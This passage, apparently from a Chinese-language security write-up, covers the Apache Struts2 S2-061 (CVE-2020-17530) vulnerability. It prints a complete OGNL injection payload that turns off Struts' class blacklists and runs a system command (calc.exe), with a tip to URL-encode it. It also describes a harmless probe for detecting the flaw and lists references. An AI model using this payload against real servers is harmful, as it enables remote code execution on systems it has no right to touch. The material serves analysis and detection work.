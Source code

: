 #### 使用 request，单次请求有效的完整 POC (推荐)

```
%{(#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + (#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + (#request.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) + (#request.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + (#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) + (#request.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + (#request.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))}
```

> 注意：请使用 url 对以上的 OGNL 代码编码后，再在工具上使用。

#### 检测思路

在新版本的 struts2 中，已经不能通过参数构造来解析 ognl 表达式了，所以如果考虑想要使用脚本来进行批量扫描是否有本漏洞的时候，可以考虑直接爆破所有参数，然后判断页面中是否有预计的结果文本即可。

比如：

%{'gcowsec-' + (2000 + 20).toString()}

预计会得到

gcowsec-2020

使用脚本判断结果中是否包含就可以了

#### 总结

此次漏洞只是`S2-059`修复的一个绕过，并且本次利用的核心类`org.apache.commons.collections.BeanMap`在`commons-collections-x.x.jar`包中，但是在官方的最小依赖包中并没有包含这个包。所以即使扫到了支持 OGNL 表达式的注入点，但是如果没有使用这个依赖包，也还是没办法进行利用。

#### 参考文章

[安恒信息安全研究院 - Struts2 S2-061 漏洞分析 (CVE-2020-17530)](https://mp.weixin.qq.com/s?__biz=MzUyMDEyNTkwNA==&mid=2247485085&idx=1&sn=f264cf31bb82ae957fb985b754890d41&scene=21#wechat_redirect "安恒信息安全研究院-Struts2 S2-061漏洞分析(CVE-2020-17530)")

[官方更新公告]https://cwiki.apache.org/confluence/display/WW/S2-061

[Struts2-059 远程代码执行漏洞（CVE-2019-0230）分析]https://blog.csdn.net/weixin_46236101/article/details/109080913

[360-CVE-2020-17530: Apache Struts2 远程代码执行漏洞通告](https://mp.weixin.qq.com/s?__biz=MzU5MjEzOTM3NA==&mid=2247488848&idx=1&sn=570129fd1b4a5d28a890205af795f5bd&scene=21#wechat_redirect "360-CVE-2020-17530: Apache Struts2 远程代码执行漏洞通告")
